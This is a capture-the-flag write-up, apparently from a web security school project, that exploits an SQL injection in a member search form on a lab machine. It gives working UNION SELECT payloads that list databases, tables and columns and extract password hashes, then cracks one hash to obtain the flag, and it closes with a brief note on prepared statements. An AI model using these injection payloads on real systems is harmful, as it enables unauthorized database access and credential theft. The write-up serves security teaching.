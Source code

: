 # Sql_Injection_basic

The GET parameter in the member search form is vulnerable to sql injection

## Method

Go to the member search page (<http://192.168.1.102/?page=member>)  
In the search field search '1 and 1 = 1' (which shows you that the form is vulnerable)

## Manipulation

### getting current database name and listing all databases

```

http://192.168.1.102/?page=member&id=42 union select database(), schema_name from information_schema.schemata&Submit=Submit

```

#### result

```

ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : information_schema
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_survey

```

which shows that the current database is Member_Sql_Injection, the other databases are Member_Brute_Force, Member_guestbook, Member_images, Member_survey

### getting a list of tables in current database

```

http://192.168.1.102/?page=member&id=42 union select table_name, create_time from information_schema.tables where table_schema=database()&Submit=Submit

```

#### result

```
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database()
First name: users
Surname : 2015-09-16 15:55:03

```

which shows that the database has a table called users

### listing all column names and types

```

http://192.168.1.102/?page=member&id=42 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit

```

#### result

```

ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: countersign
Surname : varchar(255)

```

which shows that we have the columns user_id, first_name, last_name, town, country, planet, Commentaire, countersign

### getting the password information

```

http://192.168.1.102/?page=member&id=42 union select Commentaire, countersign from users&Submit=Submit

```

#### result

```

ID: 42 union select Commentaire, countersign from users
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

```

You can see that it gives us this helpful part that says "Decrypt this password -> then lower all the char. Sh256 on it and it's good"
We then follow this instruction to get the flag we need.

## How to get the flag

Decode the hash 5ff9d0165b4f92b14994e5c685cdce28 using the md5.gromweb.com website.   
Which gives us the original string "FortyTwo"  
lower all characters and as per the instructions Sh-256 of fortytwo is:  
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  
We now have the flag (10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5)

## Prevention

>Everything has to be done through so-called prepared SQL queries, the ORMs do a good job of protecting info. (cf: PDO :: prepare)  
>Try sending forms as post requests
